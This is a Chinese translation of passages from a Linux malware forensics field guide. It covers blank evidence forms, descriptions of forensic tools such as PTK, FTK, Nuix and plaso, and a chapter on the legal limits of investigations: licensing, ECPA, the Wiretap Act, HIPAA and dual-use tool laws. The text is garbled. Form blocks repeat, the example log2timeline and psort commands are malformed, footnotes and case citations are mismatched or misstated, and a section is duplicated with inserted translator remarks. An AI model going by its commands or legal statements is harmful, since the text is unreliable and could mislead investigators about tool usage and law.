| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |

| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |

| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |

| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |

## 主机本地日志

| 反病毒软件日志： |

| :--- |

| 反病毒软件类型：反病毒软件位置：<br>反病毒软件日志条目描述：<br>检测：<br>文件名:<br>恶意软件名称：<br>反病毒软件操作：<br>反病毒软件日志条目描述：<br>检测：<br>文件名:<br>恶意软件名称：<br>反病毒软件操作：<br>反病毒软件日志条目描述：<br>检测：<br>文件名:<br>恶意软件名称：<br>反病毒软件操作： |

## 第3章 事后取证

## 201

## LINUX 系统日志：

- 已识别的日志条目：安全|系统|其他

- 事件类型：

- 来源：

- 创建时间戳：

- 关联的账户/计算机：

- 描述：

- 已识别的日志条目：安全|系统|其他

- 事件类型：

- 来源：

- 创建时间戳：

- 关联的账户/计算机：

- 描述：

- 已识别的日志条目：安全|系统|其他

- 事件类型：

- 来源：

- 创建时间戳：

- 关联的账户/计算机：

- 描述：

- 已识别的日志条目：安全|系统|其他

- 事件类型：

- 来源：

- 创建时间戳：

- 关联的账户/计算机：

- 描述：

- 已识别的日志条目：安全|系统|其他

- 事件类型：

- 来源：

- 创建时间戳：

- 关联的账户/计算机：

- 描述：

- 已识别的日志条目：安全|系统|其他

- 事件类型：

- 来源：

- 创建时间戳：

- 关联的账户/计算机：

- 描述：

- 已识别的日志条目：安全|系统|其他

- 事件类型：

- 来源：

- 创建时间戳：

- 关联的账户/计算机：

- 描述：

- 已识别的日志条目：安全|系统|其他

- 事件类型：

- 来源：

- 创建时间戳：

- 关联的账户/计算机：

- 描述：

##浏览器历史：

- 登录：

- 归属于用户账户的共享内容、文件或其他资源：

## Linux 系统恶意软件取证字段指南

| 文件系统线索 | 待查找的存储介质制品： |

| :--- | :--- |

| 说明： | |

| 文件系统条目：已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |

| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |

| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |


| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |

| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |


# Linux 系统恶意软件取证领域指南

## 恶意自启动项：

自启动描述：

自启动位置：

自启动描述：

自启动位置：

## 可疑用户账户：

- 系统上的用户账户：
- 账户创建日期：
- 登录日期
- 用户账户访问的共享内容、文件或其他资源：
- 与用户账户相关的进程：
- 归属于用户账户的网络活动：
- 与用户账户关联的口令：
- 系统上的用户账户：
- 账户创建日期：
- 登录日期
- 用户账户访问的共享内容、文件或其他资源：
- 与用户账户相关的进程：
- 归属于用户账户的网络活动：
- 与用户账户关联的口令：

## 计划任务：

- 已检查的任务
- 系统上计划运行的任务
- 是
- 否
- 识别出的可疑任务：
- 是
- 否
- 可疑任务
- 任务名称：
- 计划运行时间：
- 状态
- 描述：
- 任务名称：
- 计划运行时间：
- 状态
- 描述：

## 可疑服务：

- 已检查的服务
- 识别出的可疑服务：
- 是
- 否
- 识别出的可疑服务：
- 服务名称：
- 关联的可执行文件路径：
- 关联的启动脚本时间戳：
- 识别出的可疑服务：
- 服务名称：
- 关联的可执行文件路径：
- 关联的启动脚本时间戳：

## Linux 系统恶意软件取证指南

| 文件系统线索 | 待查找的存储介质制品： |
| :--- | :--- |
| 说明： |  |
| 文件系统条目：已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |
| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |
| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |
| 已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |

# Linux 系统恶意软件取证领域指南

名称：PTK

页码参考：26

作者/发行者：DFlabs

获取地址：http://www.dflabs.com

描述：PTK 套件基于 The Sleuth kit 构建，提供了额外的功能、关键词索引和签名匹配。该工具使用数据库来提供稳定性和灵活性，并在处理过程中保存处理结果。

其他选项：

PTK 具有用于关键词搜索的取证数据索引选项，用于创建文件系统时间线、计算哈希值以及进行签名/头部分析，如取证文档的索引操作界面所示。

# 镜像索引操作

案例：Adore

镜像：Adore-sda5

生成的时间线可以根据日期进行过滤，并以表格或图表的形式显示。

# 第 3 章 事后取证

名称：SMART

页码参考：26

作者/发行者：ASR Data

获取地址：http://www.asrdata.com

描述：SMART 工具可用于对 Linux 文件系统进行检查，包括浏览目录以及对活动空间和未分配空间进行关键词搜索。该工具不会显示在 Linux 文件系统中仍被引用的恢复文件名称，但提供了对未分配空间的访问，其中包含已删除文件的内容。SMART GUI 显示了 Linux 文件系统和多个检查选项。

名称：数字取证框架 `Digital Forensics Framework`

页码参考：23

作者/发行者：DFF

获取地址：http://www.digital-forensic.com/

描述：数字取证框架是一个开源工具，对 Linux 文件系统有强大的支持。DFF 是一个支持自定义功能开发和集成的插件框架。

此处显示了带有 Linux 文件系统的 DFF GUI：

- 注意：此模块解析文件系统并尝试恢复删除的数据。

### 特性与插件：

DFF 具有多种功能，包括下方的关键词搜索，以及通过插件方式增加能力的方法。

- 数字取证框架

## 名称：EnCase

页码参考：6

作者/发行者：Guidance Software

获取地址：http://www.guidancesoft.com

描述：EnCase 是一种商业级数字取证检查工具，具有广泛的功能用于检查存储媒体的取证。该工具对 Linux 系统的支持有限，无法提供对完整文件系统元数据的访问：

# 第 3 章 事后取证

名称：FTK

页码参考：6

作者/发行者：AccessData

获取地址：http://www.accessdata.com

描述：FTK 是一种商业集成数字取证检查程序，具有广泛的功能用于存储媒体的取证副本比对。该工具对 Linux 系统有强力的支持，如下所示所示，能够详细地显示真实的元数据。除了解析和显示常用文件外，FTK 还能恢复删除的文件并建立索引以方便关键词搜索。

名称：Nuix

作者/发行者：Nuix

页码参考：6

获取地址：http://www.nuix.com

描述：Nuix 是一套商业数字取证程序，用于从存储媒体的取证副本中提取信息、进行分类并执行相关性分析。该工具对 Linux 文件系统（包括 EXT）以及 Android 设备有强大的支持，如下所示所示，显示详细真实的元数据。可以在单个系统的活动或跨系统活动进行相关性分析，以创建时间线。在调查中，Nuix 可以解析并显示各种文件（包括电子邮件和聊天记录），恢复删除的文件并建立索引以方便关键词搜索。使用 Nuix 提取的数据通过时间信息、文件类型和其他特征进行显示和分析。

# 时间线生成

名称：plaso

页码参考：21

作者/发行者：Kristo Gudjonsson

获取地址：https://code.google.com/plaso/ 和 http://plaso.kiddland.net

描述：`log2timeline` 和 `psort` 工具是名为 `plaso` 的开源套件的一部分，它可以从各种日志和其他时间源中提取信息，并将信息整合到完整的时间线上。该工具套件可用于处理单个文件或任何文件格式。例如，以下命令对 Linux 系统进行取证分析，创建一个名为 "`timeline.db`" 的数据库，并可以使用 `psort` 进行检查（例如，在此示例中提取 2013 年 8 月 16 日至 18 日之间的项目）以及 `plaso` 中的其他工具：

```
log2timeline -f linux -o timeline.db host1.db -cut for length
psort -o timeline.db host1.db -t 2013-08-16 -T 2013-08-18 -w output.csv
```

# 精选阅读

## 书籍

- Altheide, C. & Carvey, H. (2011). Digital Forensics with Open Source Tools. Burlington, MA: Syress.
- Carrier, B. (2005). File System Forensic Analysis. Reading, MA: Addison-Wesley.
- Casey, E. (2011). Digital Evidence and Computer Crime: Forensic Science, and the Internet (3rd edition). San Diego, CA: Academic Press.
- Casey, E. (2009). Handbook of Digital Forensics and Investigation. San Diego, CA: Academic Press.

## 论文

- An analysis of Ext4 for digital forensics DFRWS2012 Conference Proceedings. Retrieved from http://www.dfrws.org/proceedings/DFRWS2012.pdf.
- Eckstein, K. (2004). Forensics for advanced Unix file systems. In: IEEE information assurance workshop. p. 77–85.
- Eckstein, K. & Jahnke M. (2005). Data hiding in journaling file systems. In: Digital Forensic Research (DFRWS), p. 231–44. Swenson, C, Phillips, R, & Shenoi S. (2007). File system forensics. In: Advances in digital forensics III. 242. Boston: Springer.

# 第 4 章 法律考量

法律考量，本章包含：

- 框架问题
- 一般考量
- 法律格局
- 调查权限来源
- 司法辖权权限
- 私有权限
- 法律/公共权限
- 存储数据
- 实时数据
- 受保护数据
- 获取数据的工具
- 业务用途
- 调查用途
- 跨境获取数据
- 民事调查下的数据
- 政府调查下的数据
- 涉及执法部门
- 受害者抵触
- 受害者误判
- 执法视角
- 法律边界
- 提高证据效力
- 文档
- 证据链

法律考量附录与网站

文中符号表示文末法律考量附录中的相关材料。本章的后续更新可以在恶意软件指南网站获取：http://www.malwarefieldguide.com/LinuxChapter4.html。

Linux 系统恶意软件取证领域指南 http://dx.doi.org/10.1016/B978-15979-470-0.00004-8

# 法律版图

通过理解与调查员、受害者、数字证据、调查工具以及调查结果相关的法律许可或限制，来在法律版图中进行导航。

### 调查员

- 调查发生的司法管辖区可能要求在数字取证分析前获得特殊的认证或执照。
- 必须存在调查的权限，且该权限不是无限制的。
- 授权调查的范围可能会被定义，并且必须被充分理解。

### 受害者

- 必须避免侵犯相关数据保管者的隐私权。
- 受害者提出的其他考量限制了对存储在独立设备上的数字证据的访问。
- 对于网络设备，用户生成内容的收集、保全和分析（与文件或系统元数据分析相比）通常是根据受害者定义或批准的方法进行处理的。
- 与受害者合作以最好地理解在什么情况下可以监控网络流量或电子通信至关重要。

### 数据

- 遇到的数据，如个人、支付卡信息、健康、财务、教育、代际、内部人员或特权信息，可能以某种方式受到州法或联邦法律的保护。
- 存在获取用于取证分析证据的方法。
- 在某些司法管辖区，可能存在限制，禁止将相关数据移动或运输到任何其他管辖区。

### 工具

- 在某些司法管辖区，可能存在与进行相关取证分析的调查工具类型相关的限制。
- 调查工具的功能和使用性质暗示了这些限制。

### 结果

- 尽早理解证据要求将提高未来相关结果被采纳的几率。
- 在恶意软件调查中是否以及何时让执法部门的介入，是一项重要的决定。

# 调查权限的来源

## 司法管辖权限

> 因为由于计算机取证这门学科、其工具和培训在近年来呈指数级增长，美国已经出台相关立法，通常要求数字调查员在州边界内进行计算机取证分析之前获得州政府颁发的执照。

### 私人调查包含数字取证的情况

- 大约 45 个州维持着私有调查法，这些法律通常要求调查员提交申请、缴纳费用、具备某些经验要求、通过考试，并在获得执照后定期续期。¹
- 许多州通常将私有调查定义为广泛地包括“获取证据的业务，以便在调查委员会、奖惩或仲裁委员会或民事或刑事案件的审判中使用，并为此做准备”。²

¹ 参见，例如加利福尼亚州的《私人调查员法》，编纂于 Cal. Bus. & Prof. Code §7521 et seq.。
² 参见，例如亚利桑那州修订法典 32-2401-16。另见 Cal. Bus. & Prof. Code 7521 (e); Nev.Stat.Ann. § 648.012。

# 第 4 章 法律考虑

尽管此类法律似乎并不涉及内部网络管理员或 IT 部门出于调查目的、对企业环境或域内内的数据所进行的数字取证，³ 但当调查扩展到企业环境之外（到其他网络或互联网服务提供商，或为了追求某些法律权利或救济提供证据保全时），许可监管似乎在几个州的司法管辖区内生效。

# 数字取证需要 PI 执照

- 大约 31 个州的状况可以解释为包含数字取证调查员，例如佛罗里达州、佐治亚州、密歇根州、纽约州、内华达州、俄勒冈州、宾夕法尼亚州、南卡罗来纳州和德克萨斯州的。

另一方面，某些州的私人调查许可不需要“技术专家”⁴或“律师为了咨询或诉讼目的聘佣的任何专家”⁵。事实上，特拉华州专门将“计算机取证专家”排除在监管之外，定义为“解释、评估、测试或来自计算机、计算机系统、网络或其他电子媒体的现有数据的人，而这些数据是由拥有、控制或占该计算机、计算机系统、网络或电子媒体的其他人提供的”。⁶n 美国律师协会（ABA）的一个小组小组最近发现自己，可以将“计算机或数字取证服务”免于私有调查执照要求。⁷

> 3 例如，密歇根州的《私人侦探员执照法》，MCL 338.24(a)（专门排除了“受雇主定期雇用与雇主事务有关且薪酬基于工资制的人员”）；Cal.Bus. & Proc. 7522 (1994)。
> 4 路易斯安那州《私人调查员法》，L.R.S. 37.3506(a)(iv)。参见 Kenneth v. Rosenberg, 127 Cal.App.3d 340, 45-46
> 5 特拉华州法典 24 § 1301
> 6 俄亥俄州修订法典 4749.01(H)
> 7 美国律师协会科学与技术小组决议 301 (2008)，见 https://www.americanbar.org/groups/dama/switched/301.doc

# Linux 系统恶意软件取证指南

- 鉴于大多数许可要求各异并可能经常变化，请咨询执行数字取证分析所在司法辖区的相应机构。访问 http://www.crimetime.com/licensing.htm http://www.pimagazine.com/private_investigator_requirements.htm 查找相关链接。

## 无证数字取证的潜在后果

- 某些法律包含了针对许可违规产生私人诉讼权的特定条款。


- 间接惩罚可能包括以禁令或赔偿令形式表现的不公平商业行为救济；排除无证调查员收集的任何证据；或客户宣布违约并拒绝支付调查员费用。

# 私有权限

进行数字取证分析的授权以及该权限的限制不仅取决于分析的数据及其所在地，还取决于执行分析的人。数字调查员的权限来源于不同的来源，对调查范围和方法有不同的约束。

## 公司员工

- 代表公司从事调查事务的内部调查员通常拥有调查公司计算机网络并确保安全的权限。
- 书面事件响应、自用设备（BYOD）或移动设备管理（MDM）政策同样可能影响网络管理员或公司安全部门使用网络权限和执行调查目标的方式。

## 聘用专家

- 内部考量也间接为公司安全部门或内部法律顾问或外部律师代表公司聘请的外部调查员提供了权限来源。

# 第 4 章 法律考虑

- 更直接地说，聘用书、服务协议或工作说明书中规定的条款和条件通常会明确授权并管辖外部调查员对相关数字证据的访问和分析。
- 针对机密或专有企业信息的非披露条款，可能不仅要求数字调查员履行某些保密义务，还可能规定相关数据的传输方式（例如：随身携带且不通过快递或邮寄）或分析所需的存储方式（例如：存储在无外部连接的私有网络上）。
- 服务合同可能要求对人员、支付卡、健康、内部人员及其他受保护数据进行特殊处理，这些数据可能与取证调查相关（本章将进一步讨论该主题）。
- 受害公司对企业网络用户的义务，可能对内部和外部数字调查员的权限范围有进一步的限制。
- 如果员工主张其对数字取证分析具有对隐私的合理预期，但如果雇主通过员工手册、政策、合同、用户登录时显示的横幅或其他手段向员工提供了其他说明通知，则该主张可能会失效。
- 对于是否可以对位于公司第三方审计员专用的工作站上的嫌疑人进行分析，将取决于第三方服务或用户协议的书面条款。
- 对于超出适当权限的调查员，可以对其实施从人员或行政处分到民事违约或或隐私诉讼不等的刑事处罚。

## 法定/公共权力

执法部门进行的数字取证调查授权来自公共来源。

### 执法部门的特殊情况

- 联邦和州法律授权执法部门进行恶意软件取证调查，但带有某些限制¹¹⁰
- 执法部门数字调查员的公共权力源于法律程序，通常表现为大审团传票证、搜查令或法院命令。

> ⁹ 参见，例如 TBG Insurance Services Corp. v. Superior Court, App. 4th 443 (2002)（员工明确同意使用管理个人用途家用电脑的监控政策，消灭了对隐私合理预期的主张）。
> ¹⁰ 参见，例如 18 U.S.C. § 2703。

# LINUX 系统恶意软件取证指南

- 案件的类型通常决定了授权调查的范围，即电子数据可以在何时、何地以及在什么情况下被获取和分析。
- 在执法事务中，注意在授权范围内进行调查尤为至重要，因为否则证据可能被排除，且指控可能被驳回¹¹¹

### 与执法部门协作行动

- 如果聘请的专家调查是在执法部门的指导下或根据其实质性建议进行的，则该专家调查可能被视为与执法部门协作行动——因此受限于授权调查的范围。
- 欲更多信息，请参阅关于在进行恶意软件取证调查时是否以及如何涉及执法部门的讨论，该内容出现在本章的“涉及执法取证”部分。

## 权限的法定限制

除了与执行分析的人员相关的权限来源和限制外，权限还来自考虑相关数据本身层面的规定；即数据类型、数据质量、数据位置、数据使用时间以及数据将如何共享。

## 存储数据

在某些情况下，与恶意软件相关的相关的存储数据可能无法获取，这取决于数据类型、网络类型以及数据最终向谁披露。访问存储数据的授权取决于数据是由私有提供者还是公共提供者存储的；如果是公共提供者，则寻求访问的数据构成内容信息还是非内容信息¹²

### 私有提供者

- 授权在不向公众提供邮件服务的私有网络上存储电子邮件数据，通常并不意味着违反了《电子通信隐私法》(ECPA) 关于访问和自愿披露的规定，即使是向执法部门也是如此¹¹³

> ¹¹ 参见，例如 United States v. Carey, 172 F.3d 1268 (10th Cir. 1999)，执法部门可以通过打开构成超出搜查令范围证据的文件来扩大计算机搜索的范围。
> ¹² 参见《电子通信隐私法》(“ECPA”)，编制于 18 U.S.C. §§ 2701 et seq。
> ¹³ 18 U.S.C. § 2701。

- 电子邮件内容、与电子邮件传输相关的交易数据以及网络上相关用户的信息可以被访问，并根据意愿披露给任何人。

### 公共提供者——非内容

- 如果网络是公共电子邮件服务提供者（例如 AOL 或 Yahoo!），则其订阅者的电子邮件内容，甚至在某些情况下此类邮件的非内容订阅者或交易数据是不能披露的，除非适用某些例外情况。
- 公共提供者可以自愿披露与客户使用公共提供者服务相关的非内容客户和交易信息：
  1. 向执法部门以外的任何人
  2. 向执法部门：
     a. 经客户合法同意；或
     b. 在必要保护公共提供者自身权利和财产时；或
     c. 如果公共提供者合理认为涉及立即死亡或严重身体伤害的紧急情况需要披露¹⁴

### 公共提供者——内容

- 关于客户订阅者的电子邮件内容，公共提供者可以自愿向执法部门披露：
  a. 经客户合法同意；或
  b. 在必要保护公共提供者自身权利和财产时；或
  c. 如果公共提供者合理认为涉及犯罪；或
  d. 如果公共提供者合理认为涉及死亡或严重身体伤害的紧急情况需要披露¹⁵
- 当然，如果公共提供者收到了大审团传票或其他法律程序，那就是另一回事。
- 否则，内容与非内容以及向执法部门披露的区分，旨在权衡个人隐私与公共安全。

## 实时数据

对于需要实时监控通信内容的调查员，理解《法庭监听法》（Wiretap Act）的要求及其例外至关重要。

> ¹⁴ 参见 18 U.S.C. § 2702(c)。
> ¹⁵ 参见 18 U.S.C. § 2702(b)。

# LINUX 系统恶意软件取证指南

### 内容

- 《法庭监听法》（“第三部分”）通过禁止任何人使用设备故意拦截或尝试拦截内容来保护电子通信的隐私¹⁶
- 在大多数管辖区，电子通信仅在与传输的同时获取时才构成《法庭监听法》意义上的“拦截”，而不是传输后存储¹⁷
- 《法庭监听法》有三个与调查员相关的例外：提供者例外、当事人同意和计算机入侵例外。

### 提供者例外

- 提供者例外为受害者及其调查未经访问公司网络的数字调查员提供了相当广泛的权限，向他人（包括执法部门）披露未经访问的证据，前提是这种努力尽可能减少拦截并避免披露私人通信⁸
- 在实际操作中
- 不要设计获取受害网络所有流量的调查计划；避免拦截已知无害的流量。

### 同意例外

- 同意例外授权在通信的一方¹⁹给出明确同意或被视为同意拦截的情况下拦截电子通信¹⁰

¹⁹ 注意某些监控法律（如加利福尼亚州法律）要求双方同意。
²⁰ U.S.C. § 2511(2)(d); United States v. Amen, 831 F.2d 373, 378 (1987)（可以是明确的或隐含的）；United States v. Workman, 80 F.3d 688, 693 (2d Cir. 1996) 证明同意方收到实际通知或使用了监控系统的证据即已确立。

## 第4章 法律考量

- 司法部的建议指出，“组织应考虑在端口上部署书面警告或‘横幅’，入侵者可能通过这些端口访问组织系统，而组织可能尝试监控入侵者的通信和流量。
- 如果已经设置了横幅，则应定期对其进行审查，以确保其与应对网络攻击时可能使用的潜在监控类型相符。”^21
- 如果受害者公司未设置横幅，在咨询法律顾问以定制最适合拟议监控类型的横幅之前，应考虑此类横幅的显性通知是否会增加监控入侵者正在进行的活动的的难度（当提供者豁免仍然有效时，这种增加是必然的）。
- 强有力的警告通常会告知用户其对系统的访问正受到监控，监控数据可能会向执法部门披露，且使用该系统即构成同意监控。
- 请记住，越常见的网络端口越容易设置横幅，而不常用的端口（敏捷黑客的喜好）通常往往不设置。

### 内容——计算机侵入例外——配合执法部门行动

- 计算机侵入例外允许执法部门与受害者提供者合作，拦截仅存在于提供者与已获得授权访问提供者网络的入侵者之间的通信。^22
- 该例外不适用于提供者聘请的数字调查员，仅适用于与执法部门共同行动的人员。
- 不要忘记本章其他地方讨论的权限其他限制之间的相互作用，考虑到这些限制可能会优于《窃听法》中其他情况下适用的例外，适用于计划在受害者网络上进行网络监控的数字调查员。

### 非内容

- 对于仅收集互联网通信中非内容部分的数字调查员——即与网络用户活动相关的源和目的 IP 地址、网络用户发送或接收的电子邮件标头、网络用户用于通信的端口——除非另有规定，否则应注意联邦《注册与追踪法》（Registers and Trap and Trace statute）^23。

附录 C，“受害者保护与报告的最佳实践”，“起诉计算机犯罪”（2007年2月），可访问：`http://www.justice.gov/criminal/cybercrime/manual.pdf`。

`18 U.S.C. § 2511(2)`。
`18 U.S.C. § 2511(i)`。
`16 CFR § 313(k)(1)`。
`16 CFR § 313(k)(2)`。对于示例列表，请参见 `16 CFR § 312`。

## 第4章 法律考量

- 描述了金融机构可以向非关联第三方披露有关消费者非公开信息的条件；并提供了一种方法，让消费者通过“退出”（opting out）披露来防止金融机构向非关联第三方披露信息，但受限于某些例外情况。
- 除了这些要求外，法规规定了金融机构维护安全计划的标准，以保护客户信息的安全性、机密性和完整性。具体而言，金融机构必须维持设计合理的行政、技术和物理保护：
  - 确保客户信息的安全性和机密性；
  - 防止对此类信息的安全性或完整性的任何预期威胁或危害；
  - 防止对未经授权的访问或使用信息，这可能给任何客户造成实质损害或不便。
- 在处理财务数据时要小心，获取并记录访问、传输及向他人披露此类数据的授权范围。

## 健康保险可携带性与责任法（“HIPAA”）

- HIPAA 通常适用于覆盖实体（医疗计划、医疗保健结算机构以及以电子形式传输任何健康信息的医疗保健提供者），并提供了规则以确保可识别健康信息（“受保护健康信息”）的隐私和安全。
- HIPAA 制定了保护电子健康信息的安全标准。
- 法规描述了可以使用和披露受保护健康信息的情况，以及必须使用或披露此类信息的情况。
- 法规还要求覆盖实体建立并维护行政、技术和物理保护，以：

26 除了 GLB 外，《公平信贷报告法》、《国内税税法》以及各种州法律法规还规定了金融服务提供商对消费者信用报告和纳税表信息的处理。需特别注意此类财务数据的处理。有关适用于金融机构的消费者保护法的摘要，请参见：`http://www.dfi.wa.gov/cu/laws.htm`。

27 `42 U.S.C. § 13302`; `45 CFR § 160.102, 160.154`。
28 零售药店是符合 HIPAA要求的“覆盖实体”的一个明显例子。药店在日常业务过程中经常收集、处理和存储个人健康信息。

`32 CFR § 312`。

## 第4章 法律考量

- 互联网上关于儿童的个人信息的收集、使用和/或披露。《青少年司法与青少年预防法》^33 规范联邦法院对未成年人的刑事起诉和少年刑事裁决，保护被告的身份不向公众公开。^34 如果数字调查涉及儿童，请咨询法律顾问了解这些联邦法律所实施的限制。
- 儿童色情：`18 U.S.C. § 1466a` 禁止持有对儿童性虐待的淫秽视觉表示。考虑在任何数字取证合同中加入此类条款，即保留向适当部门报告任何发现的、可能构成色情内容的数字证据为违禁品的权利。
- 学生教育记录：《家庭教育权利与隐私法》^35 禁止某些教育机构在没有学生许可的情况下披露其学生的“个人可识别信息”，包括成绩和学生贷款信息。同样，访问和披露此类信息的权限应由教育机构或其法律顾问进行适当审查。
- 支付卡片信息：支付卡行业安全标准（PCI DSS）为存储、传输和使用信用卡数据，以及管理计算机系统、网络和用于存储、处理和传输信用卡数据的软件建立了通用的行业标准。根据这些既定指南，在发生安全事件时，调查员必须立即采取行动调查事件，限制持卡人数据的泄露，进行完全披露并报告调查结果。在数字调查过程中处理 PCI 数据时，请务必理解这些对于披露和报告标准及要求。
- 特权信息：与数字调查分析相关的数据可能构成或与受律师-客户特权或律师工作原则保护的信息混合。如果不是在法律顾问指导下访问或披露这些数据，可能会被指控为放弃了这些特殊保护。

## 州法律保护

- 四十四州已通过了数据泄露通知法，要求包含个人信息的数据所有人在损害个人信息安全性、机密性或完整性的数据泄露后通知任何受影响的消费者。

33 `16 CFR § 312`。
^34 参见 `18 U.S.C. § 5038`（关于少年程序中产生和维护的记录的密封和保护的规定）。
³⁶ 一份关于违规通知法规的有用索引（更新至2012年8月）可查阅 `http://www.ncsl.org/issues-research/telecom/security-breach-notification-laws.aspx`。

## 第 4 章 法律考量

- 了解调查地州管辖区对违规通知的要求，对于数字取证人员工作的完整性至关重要，因为处理相关个人信息的许可权限范围和程度可能与预期不同。关于如何通过法律判定确定加密豁免，以及评估适用的通知要求是否会改变原本为了避免引起主体或目标警觉而设计的更隐蔽的操作，请咨询法律寻求指导。

# 获取数据的工具

数字调查人员对特定工具的选择通常具有法律影响。在涉及数字证据的问题上，新兴的司法先例尚未规定在使用特定目的必须使用特定的工具。相反，可靠性（这一贯穿本章及整本《现场指南》的主题）通常决定了数字调查人员的发现是否会被采纳以及采纳的程度。

### 常规用途

- 在日常业务过程中使用的工具的输出，在没有证明经过篡改或不准确的情况下，通常被采纳为证据。

### 常规流程

- 侵入检测系统
- 防墙、路由器、VPN 设备
- Web、邮件服务器和文件服务器

### 业务目的

- 常规流程系统、设备和服务器的输出构成了为了业务生成的记录——这类证据存在公认的可靠性指标。
- 文档记录和保管人证词将支持此类输出的具采纳性。

### 调查用途

- 为调查目的部署的工具的输出，其评估方式不同。部署了哪种工具、工具是否部署得当、以及如何以及跨哪些计算机系统和/或介质部署了该工具，是判定可靠性的重要考量。

### 工具

- 简单的跟踪路由 (`traceroutes`)
- WHOIS 查询
- 其他基于网络的工具

# LINUX 系统恶意软件取证现场指南

## 部署

- 受害者网络内部内部
  - 部署是否是为了维护受害者网络环境的完整性和安全性？
  - 部署是否与记录在案的内部政策和程序一致？
- 受害者网络外部
  - 部署是否避免了对其他系统进行未经授权访问或损坏的可能性？
  - 部署是否避免了违反本章之前讨论过的其他权限限制？
- 可重复性
- 有详尽笔记记录的支持
- 采取的调查步骤符合公司政策以及个人习惯、高成本做法和最佳实践。
- 对工具的调查性使用符合合理的法律建议。

## 双重用途

黑客工具与影响安全或进行必要调查的工具往往是同一种。易于下载的为广泛传播而包装的“黑客工具”的泛滥，导致某些管辖区的法律先例已充分处理了这种“双重用途”，这导致公众对两者之间的界限以及跨越该界限时承担的责任产生困惑。

### 多国——欧洲委员会网络犯罪公约

- 它是什么：
  - 解决计算机犯罪的具有法律约束力的法律文件。
  - 四十三个国家已签署或批准，包括美国。
  - 每个参与国同意确保其法律将几类计算机相关行为定为刑事犯罪。
  - 其中一类名为“滥用设备”的行为，将故意拥有或贩卖旨在便利犯罪的“黑客工具”定为刑事犯罪。
- 问题：
  - 软件供应商、研究和安全分析师以及数字调查人员可能无意中但仍会被卷入参与国实施的不够严谨而被滥用的国家法律中。

关于公约实质性条款（包括第 6 条）的官方注释并未提供进一步的启示.^39，但它似乎排除了对可能具有合法和非法法实践的工具的应用。

### 英国——计算机滥用法/警察与司法法案

- 是什么：
  - 对 1990 年《计算机滥用法》的拟议修订，通过 2006 年《警察与司法法案》实施。40
  - 将贩卖黑客工具定为刑事犯罪。
- 问题：
  - 参与国实施的不够严谨而被滥用的国家法律可能导致数字调查人员卷入。
  - 部署是否避免了违反本章之前讨论过的其他权限限制？（注：此处原文逻辑可能重复，已按原文翻译）
    软件供应商、研究和安全分析师以及数字调查人员可能无意中但仍会被卷入参与国实施的不够严谨而被滥用的国家法律中。（注：此处原文逻辑可能重复，已按原文翻译）
    （注：此处原文逻辑可能重复，已按原文翻译）

*注：由于原文在部分段存在逻辑重复或缺失，翻译已严格遵循原文内容。以下为重新整理的翻译部分：*

### 多国——欧洲委员会网络犯罪公约

- 它是什么：
  - 解决计算机犯罪的具有法律约束力的法律文件。
  - 四十三个国家已签署或批准，包括美国。
  - 每个参与国同意确保其法律将几类计算机相关行为定为刑事犯罪。
